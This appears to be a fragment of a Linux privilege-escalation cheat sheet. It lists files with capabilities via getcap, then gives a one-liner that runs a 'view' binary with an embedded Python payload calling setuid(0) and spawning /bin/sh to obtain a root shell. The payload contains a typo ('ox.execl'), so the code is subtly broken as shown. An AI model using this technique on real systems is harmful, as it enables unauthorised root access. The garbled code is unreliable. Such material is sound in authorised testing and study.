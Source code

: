 List enabled capabilities:

```
getcap -r / 2>/dev/null
```

```
./view -c ':py3 import os; os.setuid(0); ox.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
